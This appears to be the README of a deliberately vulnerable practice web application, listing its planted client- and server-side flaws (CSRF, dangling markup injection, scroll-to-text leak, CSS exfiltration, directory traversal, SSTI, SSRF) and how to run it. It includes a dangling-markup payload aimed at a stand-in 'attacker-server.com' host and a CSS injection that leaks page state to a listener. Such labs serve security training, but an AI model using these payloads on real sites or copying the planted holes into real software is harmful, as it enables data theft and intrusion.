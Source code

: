 # Vulnerabilities

## Client-Side
###  CSRF
'Delete User' endpoint does not enforce CSRF tokens.

### Dangling Markup Injection
```bash
# Posting this comment will lead to a DMI
<img src="https://attacker-server.com/
```

### Scroll To Text Leak
Inject this css 
```css
    <style>
        :target::before { content: url(http://localhost:9090/?focused_element_present); }
    </style>
```
Going to the following URL will trigger the STT
```
http://localhost:5000/?note=SomeText#:~:text=API
```

### CSS Exfil 
This should be vulnerable to CSS exfiltration but I was not able to demonstrate it.

## Server-Side
### Directory Traversal
`/files` endpoint is vulnerable to a directory traversal attack. 

### SSTI
`/dev` is vulnerable to an SSTI attack because it reflects a user-controlled value.

### SSRF via URL Bypass
`/products` is vulnerable to SSRF. However, you need to bypass the host verification. 

## Setps to Run
```bash
# Start the API server
node app/api/index.js

# Setup the database
python3 setup_db.py

# Run the app
python3 run.py
```
